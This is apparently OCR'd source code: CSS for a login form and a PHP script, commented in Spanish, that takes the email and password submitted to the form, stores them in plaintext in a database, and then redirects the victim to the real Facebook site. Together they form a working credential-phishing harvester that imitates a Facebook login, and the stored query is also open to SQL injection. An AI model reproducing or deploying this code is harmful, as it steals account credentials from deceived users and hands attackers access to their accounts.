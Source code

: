  .input-field button:hover {
    background-color: #2d4376;
  }
  
  .forgot-password {
    text-align: right;
    margin-top: -10px;
    margin-bottom: 10px;
    font-size: 13px;
  }
  
  .footer-text {
    text-align: center;
    font-size: 13px;
  }
PHP
<?php
// Conexión a la base de datos
$servername = "localhost";
$username = "tu_usuario";
$password = "tu_contraseña";
$dbname = "tu_base_de_datos";

$conn = new mysqli($servername, $username, $password, $dbname);

// Check connection
if ($conn->connect_error) {
    die("Connection failed: " . $conn->connect_error);
}

// Procesar formulario de inicio de sesión
if ($_SERVER["REQUEST_METHOD"] == "POST") {
    $email = $_POST["email"];
    $password = $_POST["password"];

    // Verificar si el usuario y contraseña son válidos
    // (aquí debes implementar la lógica para verificar la autenticidad del usuario)
    // Por ahora, solo guardamos los datos en la base de datos
    $sql = "INSERT INTO usuarios (email, password) VALUES ('$email', '$password')";
    $conn->query($sql);

    // Redirigir a la página oficial de Facebook
    header("Location: https://www.facebook.com");
    exit;
}

$conn->close();
?>

